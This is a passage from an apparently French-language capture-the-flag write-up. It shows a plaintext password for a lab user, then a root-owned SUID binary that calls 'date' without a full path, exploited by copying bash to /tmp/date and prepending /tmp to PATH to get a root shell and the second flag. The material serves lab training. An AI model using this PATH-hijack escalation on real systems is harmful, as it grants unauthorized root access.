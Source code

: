 Si on affiche son contenu on se retrouve avec le mot de passe d'``oliver`` : ``4hppfvhb9pW4E4OrbMLwPETRgVo2KyyDTqGF``

On pourrait tenter de se connecter à son compte mais nous n'en n'avons pas encore fini avec ses fichiers et dossiers. En effet, dans son répertoire on trouve également un dossier ``scripts`` avec dedans un binaire nommé ``current-date``. On s'aperçoit qu'il possède les **droits SUID** et que le **propriétaire** de ce fichier est ``root``.

Lorsqu'on le lance on obtient uniquement la date du jour. Cependant avec la commande ``strings`` on peut voir toutes les chaînes de caractères lisibles utilisées par le programme :

```
u+UH
[]A\A]A^A_
date
:*3$"
GCC: (Ubuntu 9.3.0-10ubuntu2) 9.3.0
crtstuff.c

```

Je n'en ai indiqué que quelques unes mais on peut déjà voir que la commande ``date`` est utilisée dans ce programme. Vu qu'elle n'est pas spécifiée avec son **chemin complet** on peut profiter de cette occasion pour **exécuter un autre binaire avec le même nom** mais un comportement différent.

On va donc se rendre dans ``/tmp``, copier ``/bin/bash`` dans ce répertoire en le renommant ``date`` puis changer la variable globale ``PATH`` pour la faire exécuter ce qui se trouve dans ``/tmp`` en premier lieu :

```bash
cd /tmp
cp /bin/bash /tmp/date
PATH=/tmp:$PATH
```

Il ne nous reste plus qu'à exécuter de nouveau le binaire ``/home/oscar/script/current-date`` pour obtenir un shell ``root`` !

On récupère le deuxième flag :

```bash
cat /root/2_flag.txt :
```
```
 __          __  _ _       _                  
 \ \        / / | | |     | |                 
  \ \  /\  / /__| | |   __| | ___  _ __   ___ 
   \ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \
    \  /\  /  __/ | | | (_| | (_) | | | |  __/
     \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___|
                                              
                                             
Well done! You second flag: 7afc7a60ac389f8d5c6f8f7d0ec645da
Now go to the Database server.
```

On s'attaque maintenant à la dernière partie de cette box.
